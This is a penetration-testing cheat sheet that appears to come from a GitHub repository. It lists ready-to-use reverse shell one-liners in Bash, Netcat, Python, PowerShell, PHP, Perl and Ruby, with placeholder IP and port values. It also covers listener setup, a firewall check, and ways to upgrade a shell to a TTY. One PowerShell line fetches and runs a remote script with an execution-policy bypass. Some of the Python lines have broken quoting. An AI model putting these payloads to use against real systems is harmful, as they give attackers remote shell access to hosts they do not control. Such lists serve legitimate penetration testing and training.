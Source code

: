 # General - Shells

### Detect firewalls

###### Outgoing traffic blocking

Listen to ICMP traffic on host:

```bash
tcpdump -i <interface> icmp
```

On target, make ICMP "echo" requests using ping in **background** to prevent
shell lose in case of blocked ping:

```bash
ping -c 4 <IP> &
```
```python
python -c 'import os;  os.popen("ping -c 4 <IP> &");"
```

If ICMP packets are received but TCP packets aren't then TCP may be blocked.

### Bind Shells

TODO

### Reverse Shells

###### Setup a listener on host
```
nc -lvnp <PORT>
```

###### Execute reverse shell command  
**Bash**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
**Netcat**
```bash
# If nc e option:
nc -e /bin/sh <IP> <PORT> &
# Else:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
**Python**
```python
# TCP
python -c 'import os;  os.popen("nc -e /bin/sh <IP> <PORT> &");"
python -c 'import os;  os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f &");"
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
**Powershell**
```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>
```
**PHP**
```php
# This code assumes that the TCP connection uses file descriptor 3.
# If it doesn’t work, try 4, 5, 6…
php -r '$sock=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**Perl**
```perl
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
**Ruby**
```ruby
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

###### Optional - Get TTY

```
/bin/sh -i
/bin/bash -i
echo os.system('/bin/bash')
-
# Python
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
-
# Perl
perl -e 'exec "/bin/sh";'
-
# From within IRB
exec "/bin/sh"
-
# From within vi
:!bash
:set shell=/bin/bash:shell
-
# With nmap
!sh
```

###### Optional - Get auto-completion and commands history
  - Set host terminal to raw with echo unset:
  `*ctrl-z* stty raw -echo`
  - If TERM environment variable is not set on target shell:
  `*ctrl+z* echo $TERM`
  `*fg* export TERM=<TERM>`
